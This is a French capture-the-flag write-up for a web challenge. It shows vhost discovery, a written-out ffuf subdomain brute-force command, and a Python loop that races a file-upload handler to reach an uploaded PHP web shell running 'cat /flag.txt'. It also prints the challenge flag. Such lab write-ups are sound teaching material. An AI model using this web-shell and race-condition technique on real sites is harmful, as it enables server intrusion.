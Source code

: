 # **TV23**.
## <u>**WEB**</u>

CATEGORIE DU CHALL

## <u>**Description**</u> :

```
DESCRIPTION DU CHALL
Une chaine d'information utilise un site web pour transmettre leurs photos, il est possible que l'application soit vulnérable.

FORMAT DU FLAG : MCTF{1cf35bf5d570cabbe4a7a222b1ad93937abf80b879132a30665479bc5c21ca92}
```

## <u>Hints</u> 

HINTS

## <u>Auteur</u> 

SpawnZii

## <u>Solution</u> :

WRITE UP

 Step1
- En regardant le code source de la page par default d'apache on trouve un vhost "<!-- don't forget to delete this comment russy23.ru -->".
- Ajout du vhost dans notre fichier /etc/hosts.
- On tombe sur une page avec un upload de fichier.

 Step2
- Il faut ensuite bf les vhosts pour trouver `backup.russy23.ru`
`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://russy23.ru -H "Host: FUZZ.russy23.ru" -fs 10784`
- On obtient le code source de l'application. On comprend que le fichier upload est renomé (md5(secret+nomdufichier)), il est ensuite déplacé puis supprimé.
- Le sleep dans le code source rend vulnérable le code a une race condidtion.
- Nous allons donc scripter en python (ou autre) une blouche qui va faire un GET sur notre shell.
```
import requests

url = "http://russy23.ru/images/8002b0be29bfddc0466139eef609b658.php?cmd=cat /flag.txt"
for i in range(10000000):
    r = requests.get(url)
    if r.status_code == 404:
        pass
    else: 
        print(r.text)
```
- Il nous reste a upload un shell en php.


##**Flag : MCTF{1cf35bf5d570cabbe4a7a222b1ad93937abf80b879132a30665479bc5c21ca92}**
